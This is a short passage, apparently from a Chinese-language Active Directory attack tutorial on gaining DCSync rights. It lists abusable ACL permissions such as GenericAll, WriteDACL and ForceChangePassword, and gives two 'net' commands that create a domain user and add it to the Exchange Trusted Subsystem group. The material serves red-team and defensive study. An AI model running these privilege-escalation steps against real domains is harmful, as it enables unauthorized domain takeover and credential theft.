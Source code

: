 ## DCSync 权限

```plain
● GenericAll – full rights to the object (add users to a group or reset user’s password)
GenericAll -对象的完全权限（将用户添加到组或重置用户的密码）
● GenericWrite – update object’s attributes (i.e logon script)
GenericWrite -更新对象的属性（即登录脚本）
● WriteOwner – change object owner to attacker controlled user take over the object
WriteOwner -将对象所有者更改为攻击者控制的用户接管对象
● WriteDACL – modify object’s ACEs and give attacker full control right over the object
WriteDACL -修改对象的ACE并给予攻击者对对象的完全控制权
● AllExtendedRights – ability to add user to a group or reset password
AllExtendedRights -将用户添加到组或重置密码的能力
● ForceChangePassword – ability to change user’s password
ForceChangePassword -更改用户密码的能力
● Self (Self-Membership) – ability to add yourself to a group
Self（Self-Membership）-将自己添加到组的能力
```

[![](assets/1700545055-5edb0f96dfea5098e2626b4b0339608a.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231120103029-c5334634-874c-1.png)

在Exchange受信任子系统组上滥用权限  
net user /add testz1 testz1@qq.com /domain  
net group /add 'Exchange Trusted Subsystem' testz1 /domain

[![](assets/1700545055-87a3f124996c36ad31c95ce693b35348.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231120103037-ca18cf70-874c-1.png)
